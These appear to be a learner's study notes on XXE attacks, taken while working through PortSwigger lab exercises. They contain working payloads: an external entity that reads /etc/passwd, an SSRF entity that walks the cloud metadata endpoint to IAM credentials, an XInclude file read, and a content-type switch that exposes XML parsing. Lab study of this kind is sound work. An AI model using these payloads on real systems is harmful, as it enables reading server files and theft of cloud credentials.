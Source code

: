[[Portswigger]]
https://portswigger.net/web-security/xxe
(read this)
it is vulnerability  that let the attacker to interfere with application's processing XML , and sometimes allows the attacker to view server's system files  , and it can use to perform SSRF

and it can be arise because it use xml to transmit data between browser and the server and xml it self have a lot of potentially dangerous features

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

let's start with the labs and how we can use it : 
## first lab
in this this lab there's check product and it use XML to transmit data we can use it and make it transmit some files from  the server's system files , we can use this inject this code   `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`  in xml  to retrieve the file /etc/passwd and you can check for the most useful files here [[File Inclusion]] in Path Traversal section , anyway after the injection it will be like this ``

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## second lab

in this lab we exploit XXE vulnerability to perform SSRF
and to do this use this command 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
then The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. then you should add the name of the file , so if the folder name was `latest` you just edit this and it will be 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
and continue like this until it be like this 
`/latest/meta-data/iam/security-credentials/admin`
 
This should return JSON containing the `SecretAccessKey`.

## third lab

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.
To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`


## fourth lab(when you review this)

## the end(important)
### XXE attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

`POST /action HTTP/1.0 Content-Type: application/x-www-form-urlencoded Content-Length: 7 foo=bar`

Then you might be able submit the following request, with the same result:

`POST /action HTTP/1.0 Content-Type: text/xml Content-Length: 52 <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## How to find and test for XXE vulnerabilities

The vast majority of XXE vulnerabilities can be found quickly and reliably using Burp Suite's web vulnerability scanner.

Manually testing for XXE vulnerabilities generally involves:

- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.v

